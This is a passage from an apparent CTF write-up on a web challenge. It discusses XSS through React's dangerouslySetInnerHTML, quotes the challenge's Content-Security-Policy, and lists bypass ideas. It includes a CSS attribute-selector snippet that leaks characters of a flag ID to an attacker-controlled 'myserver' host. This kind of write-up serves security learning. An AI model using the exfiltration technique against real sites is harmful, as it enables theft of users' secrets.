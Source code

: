 React team chose this name on purpose, because they want you to know that this attribute is dangerous and prone to XSS.

So, now we have an XSS, just do `<svg onload>` and leak the flag?

Not yet, don't forget the CSP.

## CSP Bypass

Here is the CSP for this challenge:

``` js
app.use((req, res, next) => {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self'; object-src 'none'; base-uri 'none';"
    );
    if (req.session.user && users.has(req.session.user)) {
        req.user = users.get(req.session.user);
    }
    next();
});
```

You can't inject your script because of the CSP, and this CSP is quite strict. When it comes to the client-side challenge, CSP is usually a good hint. I can think of a few techniques that it's allowed from this CSP:

1. CSS injection (`<style>` and image are allowed)
2. DOM clobbering (input is not sanitized)
3. `<meta>` tag
4. Inject the script in same origin (`self` is allowed)
5. `<iframe>` is allowed

## First thoughts - CSS injection

My first idea is about CSS injection.

If we can inject the style into the `/home` page which renders all the posts, we can steal the `href` which is `flagId` by doing this:

``` css
a[href^="/post/0"] {
  background: url(//myserver?c=0);
}

a[href^="/post/1"] {
  background: url(//myserver?c=1);
}

// ...
```

But, is it possible?

When the admin bot visits our URL, it's `/post/random_id`, we can inject the style on this page for sure, but when we change the location to `/home`, the injected style is cleared. It seems not work.
